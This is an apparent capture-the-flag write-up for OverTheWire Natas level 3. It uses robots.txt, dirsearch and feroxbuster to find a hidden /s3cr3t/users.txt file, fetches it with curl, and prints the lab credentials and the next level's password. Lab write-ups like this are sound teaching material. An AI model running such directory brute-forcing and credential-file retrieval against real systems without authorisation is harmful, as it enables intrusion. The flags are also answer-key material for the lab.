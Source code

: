 ```yaml
---
layout: level
level: 3
previous: ./level 02.html
next: ./level 04.html
---
```


# soal
Username: natas3 \
URL:      http://natas3.natas.labs.overthewire.org \

# solve
- login with cred natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH
- if you check the web you won't find a directory listing because the directory listing isn't there
- u can check robots.txt first because show the allow and disallow path user agent
- and Here I found the folder that was allowed, namely /s3cr3t/
  - http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt # natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ 
- or use the tool bruteforce directory
```bash
echo -n 'natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH' | base64 # make the base64 for authentication

dirsearch -u natas3.natas.labs.overthewire.org -e txt,html -u natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH

feroxbuster -u http://natas3.natas.labs.overthewire.org -x .txt,.html -H "Authorization: Basic $(echo -n 'natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH' | base64)"
# 200      GET        1l        1w       40c http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt
# 200      GET        2l        4w       33c http://natas3.natas.labs.overthewire.org/robots.txt
```

- after u found the directory and the file u can curl the flag
```bash
curl http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt -u natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH
natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ
```

# flag
QryZXc2e0zahULdHrtHxzyYkj59kUxLQ